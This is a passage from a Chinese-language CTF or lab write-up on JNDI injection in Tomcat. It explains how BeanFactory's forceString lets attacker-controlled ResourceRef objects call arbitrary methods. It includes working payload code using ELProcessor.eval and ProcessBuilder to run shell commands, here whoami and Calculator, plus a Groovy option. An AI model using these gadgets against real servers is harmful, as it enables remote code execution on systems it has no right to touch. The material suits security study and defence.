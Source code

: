![image-20220907134022423](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-45ca54c3429a0e90f3473fda3d366be337a8eba1.png)

![image-20220907134057468](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-7574e3c17ed0ff84a62e6bca67926cf5d2078c94.png)

> 原因:
> 
> `beanFactory`会取出`ResourceRef`对象中的`forceString`参数进行如下示例的处理:
> 
> 假设参数值为`x1=a,x2=b,x3=c`
> 
> 1. 通过`,`分割得到三组字符串`x1=a`,`x2=b`,`x3=c`
> 2. 通过`=`对每组字符串进行分割进行处理,例如取出`x1=a`切割后分别是`x1`和`a`
> 3. 将第一个作为要设置的参数变量名,第二个作为函数名, 表示强制转换, 当要设置指定实例化后`BeanClass`对象的 x1属性时由原本的`setX1`方法强制转换为调用`a`方法进行参数设置
> 4. BeanClass对象需要设置哪些参数完全由我们的`ResourceRef`对象决定,我们完全可控所以就是如果原本需要设置BeanClass对象的变量`x1="xx11"`就会调用它的setX1("xx11")去将`x1`设为`xx11`,但是因为以上`forceString`的存在会变为调用`a("xx11")`
> 5. 后面对x2,x3的处理同于x1

所以就是,到这里我们就可以完成`任意public的String单参数函数`的调用了

属于BeanClass,且通过一个String参数就能执行危险操作的Class方法以下两个用的比较多:

1. javax.el.ELProcessor#eval 任意代码执行
    
    (注意,Tomcat7中不存在该类)
    
    参数示例:
    
    ```java
    "".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','whoami']).start()")
    ```
    
    ```java
    ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",
           true, "org.apache.naming.factory.BeanFactory", null);
    ref.add(new StringRefAddr("forceString", "x=eval"));
    
    ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/bash','-c','/Applications/Calculator.app/Contents/MacOS/Calculator']).start()\")"));
    return ref;
    ```
2. groovy.lang.GroovyShell#evaluate 执行 Groovy 脚本
    
    参数示例:
    
    ```java
    println 'Hello World.'
    ```

0x05 回到题目 + 其他类的利用拓展
====================

在这里搜索了一下发现`ELProcessor`类并没有被加载进来,所以第一个自然也就不可用了,`GroovyShell`的搜索结果也是不存在

![image-20220907033003817](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-d7d445d800e51d77daaeb2d2593a914268ac6866.png)
